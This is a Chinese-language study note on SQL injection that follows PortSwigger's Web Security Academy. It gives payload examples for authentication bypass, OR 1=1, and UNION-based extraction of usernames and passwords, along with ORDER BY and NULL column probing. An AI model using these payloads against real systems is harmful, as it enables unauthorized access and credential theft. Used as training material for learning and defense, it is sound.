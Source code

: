 # SQL injection入门

这是[PortSwigger/Web Security Academy/SQL injection](https://portswigger.net/web-security/sql-injection)的学习笔记。

非常基础的东西，可以用来了解SQL注入的常规用法。

不同的数据库有不同的语法，本文不做深入，需要的同学可以参考[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## 获取隐藏数据

注释掉后面的条件

SELECT * FROM products WHERE category = 'Gifts`'--`' AND released = 1

查询出所有的products

SELECT * FROM products WHERE category = 'Gifts`' OR 1=1--`' AND released = 1

## 改变程序逻辑

无密码登录

SELECT * FROM users WHERE username = 'administrator`'--`' AND password = ''

## 获取另一个表中的数据

列出所有的用户名和密码

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT username, password FROM users--`'

UNION攻击需要满足两个条件：
1. 列数与原来的查询相同
2. 数据类型与原来的查询兼容

### 判断列数的方法

使用ORDER BY N排序，当N超出列数时报错

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 1--`'

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 2--`'

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 3--`'

使用UNION SELECT NULL，当NULL的个数与列数一致时不报错

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT NULL--`'

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT NULL,NULL--`'

### 测试列的数据类型

得到列的数量后，就需要测试列的数据类型，原理是类型不匹配时会报错

SELECT id, name FROM products WHERE category = 'Gifts`' UNION SELECT 'a',NULL--`'

SELECT id, name FROM products WHERE category = 'Gifts`' UNION SELECT NULL,'a'--`'

### 在一列中获取多个数据

有时候需要获取多个数据但是只有一个展示列，这时就需要合并数据

SELECT name FROM products WHERE category = 'Gifts`' UNION SELECT username || '~' || password FROM users--`'

多个列需要用NULL占位

SELECT id, name FROM products WHERE category = 'Gifts`' UNION SELECT NULL, username || '~' || password FROM users--`'

